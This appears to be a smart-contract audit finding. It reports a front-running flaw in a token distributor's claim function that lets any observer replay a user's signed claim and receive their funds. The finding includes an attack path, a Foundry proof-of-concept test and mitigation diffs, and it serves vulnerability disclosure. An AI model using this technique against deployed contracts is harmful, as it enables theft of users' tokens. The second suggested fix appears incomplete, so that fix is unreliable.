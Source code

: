Scruffy Linen Badger

High

# Malicious actor can front-run any `VVVVCTokenDistributor::claim(...)` transaction and get all of the user funds

### Summary

Currently, the `VVVVCTokenDistributor` contract allows `any address which is an alias of a KYC address to claim tokens` using the `claim(...)` function, however, literally any address can front-run a trustworthy user's `claim(...)` and end up getting all of the funds from the `kycAddress` wallets.

### Root Cause

The problem that creates this issue, IMO, is two-fold:

1. The `nonce` parameter being sent in the `ClaimParams` is [compared](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L115) to a nonce mapping where the address is again coming from the input parameters, so the attacker does not need be aware of any nonce logic.
2. The funds are directly [transferred](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L131-L135) to the `msg.sender`, but are taken from the `kycAddress`'s proxy wallets.

### Internal pre-conditions

1. Alice has funds in `vVv` in numerous proxy wallets.


### External pre-conditions

1. Bob (a malicious external actor) monitors the mempool for transactions.

### Attack Path

1. Alice gets an off-chain signature for a claim for her funds, signing all of the parameters in the `ClaimParams` structure.
2. Alice invokes the `claim(...)` function.
3. Bob sees that transaction in the mempool, and front-runs it.
4. His transaction gets executed first and passes because the `ClaimParams` parameter contains all of the data needed to pass the inner checks.
5. Alice's transaction reverts because the `nonce` changes and does not pass the inner check.
6. All of Alice's funds get transferred to Bob.

### Impact

1. Users get fully drained from their funds when claiming.

### PoC

Add the following test to the `VVVVCTokenDistributorUnitTests.t.sol` file:

```solidity
    function testClaimFrontRunning() public {
        address[] memory thisProjectTokenProxyWallets = new address[](1);
        uint256[] memory thisTokenAmountsToClaim = new uint256[](1);

        thisProjectTokenProxyWallets[0] = projectTokenProxyWallets[0];

        uint256 claimAmount = sampleTokenAmountsToClaim[0];
        thisTokenAmountsToClaim[0] = claimAmount;

        // Sample user generates a claim params signature and claims the tokens
        VVVVCTokenDistributor.ClaimParams memory claimParams =
            generateClaimParamsWithSignature(sampleKycAddress, thisProjectTokenProxyWallets, thisTokenAmountsToClaim);

        // A malicious user sees that transaction and front runs it and gets all funds
        address maliciousUser = address(0x123);

        claimAsUser(maliciousUser, claimParams);
        assertTrue(ProjectTokenInstance.balanceOf(maliciousUser) == claimAmount);

        // The sample users transaction reverts
        vm.startPrank(sampleKycAddress);
        vm.expectRevert(VVVVCTokenDistributor.InvalidNonce.selector);
        TokenDistributorInstance.claim(claimParams);
        vm.stopPrank();
    }
 ```

### Mitigation

The easiest solution would be to change the address that receives the funds to be the `kycAddress`:

```diff
index 5539497..0b7a5e3 100644
--- a/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol
+++ b/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol
@@ -130,7 +130,7 @@ contract VVVVCTokenDistributor is VVVAuthorizationRegistryChecker {
         for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
             projectToken.safeTransferFrom(
                 _params.projectTokenProxyWallets[i],
-                msg.sender,
+                _params.kycAddress,
                 _params.tokenAmountsToClaim[i]
             );
         }
 ```
 
 The above will end up transferring everything to the address that has passed KYC. However, if the funds should be transferrable to external addresses, then changing the nonce comparison logic should also stop the attack:
 
 ```diff
 index 5539497..a2d8a88 100644
--- a/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol
+++ b/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol
@@ -112,7 +112,7 @@ contract VVVVCTokenDistributor is VVVAuthorizationRegistryChecker {
             revert ArrayLengthMismatch();
         }
 
-        if (_params.nonce <= nonces[_params.kycAddress]) {
+        if (_params.nonce <= nonces[msg.sender]) {
             revert InvalidNonce();
         }
 ```
 
 